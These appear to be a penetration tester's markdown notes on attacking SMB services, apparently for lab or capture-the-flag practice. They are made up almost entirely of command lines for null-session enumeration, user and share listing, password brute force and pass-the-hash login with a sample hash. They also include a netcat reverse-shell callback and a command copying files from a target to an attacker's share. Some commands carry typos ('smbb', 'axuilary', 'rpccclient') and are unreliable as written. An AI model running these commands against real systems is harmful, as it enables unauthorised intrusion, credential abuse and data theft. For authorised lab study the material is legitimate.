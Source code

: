 




# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]

# flags
-L # list
-U # user
-U '' # Null auth
-N # no pass
-U # Username
get flag_1 - # read file

# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP


smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection
nmblookup -A <Target IP>
rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups

# pass hash
smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:2b73e1a325df8ca7bd82063457391964 cs.org/Administrador@192.168.200.129

```

## Password policy enum

```
crackmapexec smb 10.129.95.210 --pass-pol 
crackmapexec smb 10.129.95.210 --pass-pol -u  '' -p '' ##null login
crackmapexec smb 10.129.95.210 --pass-pol -u 'USER' -p 'PASS'
```




# SMB server

```bash
smbserver.py NAME $(pwd) -smb2support -user USER -password password # share current directory with the name NAME
smbserver.py share DIRECTORY # Start Smbserver named share with no creds
```
## windows
```


# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT

# Send files from target to our smb

copy FILE \\10.10.10.10\share\
```





# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```




### Nmap 


```bash
nmap --script smb-vuln* -p 139,445 [ip]
nmap --script smb-enum-shares <IP>
nmap --script smb-enum-users <IP>
nmap -p445 --script smb-brute --script-args userdb=users.txt,passdb=passwords.txt <target>  
```

## samrdump.py (Impacket )
```bash
samrdump <IP>
```


# Windows
![[Pasted image 20221123164201.png]]

This tells Windows to connect to IPC$ by using empty username and password
```powershell
NET USE \\<Target IP>\IPC$ '' /u:''
```

## Enum

```powershell
enum -S <IP>





-S # Enumurate shares
-U # enumurate users
-P # Check for password policy
```

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>


## winfo
```powershell
winfo <IP> -n 

-n # Null attack
```

# Metasploit

```ruby

use auxiliary/scanner/smb/smb_version # check version

use auxiliary/scanner/smb/smb_enumusers # enumurate users 

use auxiliary/scanner/smb/smb_shares # enumurate shares 
set sharefiles true

use auxiliary/scanner/smb/smb_login # bruteforce login 
# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor 
```
